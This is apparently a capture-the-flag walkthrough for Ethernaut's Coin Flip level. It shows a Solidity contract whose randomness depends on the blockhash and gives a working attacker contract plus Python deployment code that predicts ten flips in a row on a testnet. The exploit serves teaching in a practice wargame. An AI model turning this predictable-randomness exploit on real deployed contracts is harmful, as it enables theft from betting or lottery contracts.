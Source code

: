 # 03 - Coin Flip

## Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Summary

Our goal is to win 10 guesses in a row. The `side` generator of a flip is based on

```js
uint256 blockValue = uint256(blockhash(block.number - 1));
lastHash = blockValue;
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```

We do not have to calculate the value each time. Instead, we can deploy a contract to calculate this value and call `CoinFlip`'s `flip` function with the correct value. This can be done with the help of [Interface](https://solidity-by-example.org/interface/). Basically, we can create an interface `CoinFlip` with method `flip`, and deploy a contract that will call this method with the correct value. This guarantees that we will win each guess.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0xe915C1EDb29c6fd5593B7DB4798498Bb9C6225Ff'
```

The interface has exactly the same signature as the method:

```js
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

Now we can continue to finish the contract, which calls `flip` with calculated value:

```js
contract CoinFlipGuess {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flipGuess(address _coinflipAddress) external returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool res = ICoinFlip(_coinflipAddress).flip(side);
        consecutiveWins += res == true ? 1 : 0;
        return consecutiveWins;
    }
}
```

Note that `ICoinFlip(_coinflipAddress).flip(side)` where we gets the instance of `CoinFlip` and call `flip` with the correct value. Using `cheb3`, create, compile and deploy the contract:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flipGuess(address _coinflipAddress) external returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool res = ICoinFlip(_coinflipAddress).flip(side);
        consecutiveWins += res == true ? 1 : 0;
        return consecutiveWins;
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['CoinFlipGuess']

>>> contract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> contract.deploy()
2023-06-04 22:13:47.229 | DEBUG    | cheb3.contract:deploy:96 - Deploying contract ...
2023-06-04 22:13:56.470 | INFO     | cheb3.contract:deploy:101 - The contract is deployed at 0x22eBfE12f13092D7D694f017C09610279aDb6f1e
```

On a side note, for contract deployment, you can also save the contract to `CoinFlipGuess.sol` then call `abi, bytecode = compile_file("CoinFlipGuess.sol", "CoinFlipGuess", "0.8.17")['CoinFlipGuess']`.

Now that the contract is deployed - we just need to call `flipGuess` 10 times with `_coinflipAddress`, which is `contract_addr`.

```py
for _ in range(10):
    contract.functions.flipGuess(contract_addr).send_transaction(gas_limit=1000000) # gas_limit is required
    print("Wins: " + str(contract.functions.consecutiveWins().call()))
    time.sleep(15)
```

The sleep is required because transaction will revert if `lastHash == blockValue` (same block). Finally, submit the instance to pass the level.